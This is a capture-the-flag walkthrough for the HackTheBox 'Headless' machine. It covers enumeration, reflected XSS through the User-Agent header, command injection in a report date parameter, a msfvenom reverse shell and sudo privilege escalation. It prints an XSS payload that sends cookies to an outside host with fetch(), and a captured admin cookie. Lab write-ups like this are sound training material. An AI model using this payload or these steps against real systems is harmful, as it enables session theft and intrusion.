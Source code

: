 ```yaml
---
date: 2025-04-15
categories: [CTF, HTB]
title: "HTB - Headless"
tags: ['linux', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'xss']

description: "Headless - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Headless

NMAP

![image1](../resources/3c80bf65f98a417abdc9de767bdd5732.png)
 
Go to port 5000 in a browser - we can see it uses cookies:

![image2](../resources/4e972bba1701417b9e40e5a5c10f90ef.png)

- HttpOnly is set to **false**
Which means we can steal the cookies of other users

- Look for directories:

`dirsearch -u http://10.129.35.58:5000 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt`



![image3](../resources/e288c54c60f64c48a19faae614f9aa4d.png)

- On the /support page:

![image4](../resources/75486423603540d39e9dafcc21025dbd.png)

- If we try and enter XSS code, we get this:

![image5](../resources/2c7e860e909e4aeb9bfcf45baf6699e3.png)

- Now looking at the error message, we see that our **User-Agent** information is being reflected

- Open Burp and forward to Repeater

- In order to get Reflected XSS we need to inject the XSS into the User-Agent field and get the page to error like before

- We need to set up a python server to catch the GET request which should have an (admin) cookie attached to it

- Using the payload:
```java
<img src=x onerror=fetch('http://10.10.14.23/?c='+document.cookie);>

```
and entering **hello;\<script\>** in the **message field** so that it errors. (Anything inside \<\> tags makes this page error)


![image6](../resources/b5f36784cc374c59afec29484a5e3d13.png)


![image7](../resources/6dc6a636156e4161a6e30a89e8050121.png)

- Got the cookie:
is_admin= **ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0**

- Good article here:
<https://systemweakness.com/reflected-xss-user-agent-2868ca1d5116>

- In the browser, Inspect -\> Storage -\> Cookies
- Change the cookie to the admin cookie

- Go to **/dashboard**


![image8](../resources/ac636b9d7709446f9c4a952e2b0379d1.png)

- Click on generate report and catch the request in Burp and send to Repeater:

![image9](../resources/a6c75ba552064d938d2077f2420780e4.png)


![image10](../resources/3d9119b0bfcb43c18e73d9fb2f435333.png)

- As we can see, the **date** parameter gets passed to the server as an argument

- We can inject commands into this parameter using **;**

![image11](../resources/b560fe1f3729472f939a6c1ef1b9f66f.png)

- The reverse shells didn't want to work

- But curl works:

![image12](../resources/2fd912ea3ad64fa88e83960dcac9d95d.png)

- Create a msfvenom linux .elf file and curl it onto the victim machine
- Run chmod +x on the reverse.elf file
- Set up msfconsole listener
- Run ./reverse.elf

- Got shell:

![image13](../resources/fd46e7feca16442691a127fef71146ce.png)


![image14](../resources/6e40cc79e04c467982668c5599edd89c.png)

```bash
cat user.txt

```
Upload public key to the ~/.ssh/authorized_keys and use SSH

```bash
sudo -l

```

![image15](../resources/731f0fa0989e430f997db6af215494cd.png)


![image16](../resources/3684b736a51447f0ba573b7bc3144c37.png)

- Checking the file /usr/bin/syscheck:

![image17](../resources/3d2d3f7ac3a74f41ba360d2fb04d97c7.png)

- In dvir home, create the file ./initdb.sh:

![image18](../resources/c092a50183f342d0a8f51c8493cee43e.png)

```bash
chmod +x initdb.sh
sudo /usr/bin/syscheck

```
- We have root:

![image19](../resources/974cddeac4af44649913cae2c9375fbf.png)